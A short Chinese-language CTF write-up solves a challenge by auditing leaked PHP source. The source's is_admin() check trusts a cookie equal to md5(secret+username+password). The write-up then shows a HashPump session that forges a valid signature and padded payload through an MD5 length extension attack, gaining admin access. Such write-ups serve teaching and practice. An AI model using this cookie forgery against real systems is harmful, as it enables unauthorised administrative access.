 ![](/assets/images/move/20190915110202.png)

首先是`www.zip`的源码泄露，下载代码进行审计：

看到 `config` 中的 `is_admin()` 时，基本就可以判断可以通过 hash 拓展 bypass。

```php
function is_admin(){
    $secret = "********";
    $username = $_SESSION['username'];
    $password = $_SESSION['password'];
    if ($username == "admin" && $password != "admin"){
        if ($_COOKIE['user'] === md5($secret.$username.$password)){
            return 1;
        }
    }
    return 0;
}
```

关于 [HashPump](https://3nd.xyz/2019/08/23/2019-De1taCTF/#%E5%93%88%E5%B8%8C%E9%95%BF%E5%BA%A6%E6%8B%93%E5%B1%95) 的利用不多赘述。

```bash
$ hashpump
Input Signature: 52107b08c0f3342d2153ae1d68e6262c //已知的签名
Input Data: admin  //数据(password)
Input Key Length: 13 //密文固定长度 secret.username
Input Data to Add: 3nd  //拓展字段
b434e6bafe2a80ddb42d515d98a1b6f2 //拓展后获取的签名
admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x003nd //拓展后的数据
Payload 中需替换 \x 为 %
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%003nd
```

替换 Cookie 之后就可以使用 admin 的身份登录了。
